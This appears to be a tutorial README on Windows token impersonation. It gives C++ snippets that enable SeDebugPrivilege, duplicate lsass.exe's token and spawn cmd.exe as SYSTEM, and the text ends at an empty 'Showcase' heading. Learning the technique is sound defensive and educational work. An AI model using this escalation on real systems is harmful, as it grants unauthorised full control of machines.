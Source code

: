 # System Token Impersonation

## Tokens

Each process has its own corresponding [_EPROCESS](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20%7C%202016/2110%2021H2%20(November%202021%20Update)/_EPROCESS) in kernel, it contains all the information about a process, includin it's PID, loaded modules, virtual address space and much more information. Today we will focus on a field which can be found deep down in _EPROCESS, which is the [_TOKEN](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20%7C%202016/2110%2021H2%20(November%202021%20Update)/_TOKEN) structures. It contains a token that contains the information about the rights a process has, it tells wether a process runs as user, admin or system. We will now focus on going from admin to system.

## Steps

Before doing anything else, we will need to grant our own process the `SeDebugPrivilege` privilege, it is the highest rights a usermode process can have. We can do so by looking up the `LUID` value corresponding to SeDebugPrivilege by using `LookupPrivilegeValueA`. We can then set the luid of our own token to it and call `AdjustTokenPrivileges` to apply the new token to ourselves :

```cpp
bool enable_debug_priv(HANDLE hToken)
{
	TOKEN_PRIVILEGES token_priv;
	LUID luid;

	if (!LookupPrivilegeValueA(0, "SeDebugPrivilege", &luid))
		return false;

	token_priv.PrivilegeCount = 1;
	token_priv.Privileges[0].Luid = luid;
	token_priv.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

	if (AdjustTokenPrivileges(hToken, FALSE, &token_priv, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)0, (PDWORD)0))
		return true;
	else
		return false;
}
```
\
Our target process needs to have system rights, we will need to open a handle to it, and to it's token. Of course, we can't do these to the system process with pid 4. However we can do it on other processes that have the required rigths such as `winloging.exe` or `lsass.exe`. Here is the general idea :

![image](https://media.discordapp.net/attachments/780153367305256981/1019982190114766929/unknown.png?width=593&height=605)
\

In this example we first open a handle to lsass with the most limited information possible which are PROCESS_QUERY_INFORMATION. We can then open a handle to the token of that process using `OpenProcessToken` with flags, the main one being TOKEN_DUPLICATE which we will need later. We then call `ImpersonateLoggedOnUser` which is needed for token impersonation. So far we have this :

```cpp
OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, PID);
OpenProcessToken(hProcess, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &hToken);
ImpersonateLoggedOnUser(hToken);
```


Now for the most intereseting part, we will use `DuplicateTokenEx` to, as the name suggests, duplcate the token of the target process and store it: 

```cpp
DuplicateTokenEx(hToken, TOKEN_ADJUST_DEFAULT | TOKEN_ADJUST_SESSIONID | TOKEN_QUERY |
    TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY, 0, SecurityImpersonation, TokenPrimary, &hDupToken);
```

We can then use the `CreateProcessWithTokenW` (no ANSI version 👎) to spwan a process, and specify the token that it wll have when created. We wll supplu the token we duplcated earlier : 

```cpp
CreateProcessWithTokenW(hDupToken, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", 0, 0, 0, 0, 
    (LPSTARTUPINFOW)&startup_info, &process_info);
```

## Showcase
